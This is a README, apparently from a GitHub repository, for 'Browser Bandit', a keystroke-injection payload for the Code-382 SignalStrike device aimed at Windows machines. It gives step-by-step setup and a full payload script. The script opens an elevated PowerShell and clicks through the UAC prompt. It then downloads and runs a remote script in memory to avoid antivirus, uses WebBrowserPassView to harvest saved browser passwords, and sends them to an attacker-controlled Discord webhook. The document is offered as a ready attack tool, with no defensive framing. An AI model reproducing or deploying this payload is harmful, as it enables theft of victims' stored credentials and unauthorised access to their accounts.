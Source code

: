 # **Browser Bandit (SignalStrike)**

## Requirements:

- **Hardware**: Code-382 SignalStrike ([store]([https://store-link-here](https://code-382.eu/index.php/product/signalstrike/)))
- **Attacker**: Windows/Linux/MacOS/Android/iOS with Discord installed
- **Target**: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 SignalStrike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a `.txt` file, which is then transmitted to the attacker’s Discord Webhook.

## 1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

1. Create a new Discord server (if you don’t have one already).
2. Right-click on the server icon and select **Server Settings**.
3. Navigate to **Integrations > New Webhook**.
4. Copy the webhook link and save it somewhere safe for later use.

## 2. Download `Payload.txt`

Next, you need to download `Payload.txt`. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the `Payload.txt` file, locate line 12 and replace `<DISCORD WEBHOOK HERE>` with your actual Discord webhook URL (without the angle brackets `<>`).

### `Payload.txt`

``bash
DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER``


## 3. Upload Your Payload to SignalStrike

1. Plug in your SignalStrike device.
2. Connect to its WiFi network (**Default SSID: SignalStrike, Password: SignalStrike**).
3. Open a web browser and go to **192.168.4.1** to access the control panel.
4. Create a new payload and name it "Browser Bandit".
5. Paste your modified `Payload.txt` (with the webhook) into the text box provided.
6. Save the payload and execute it.
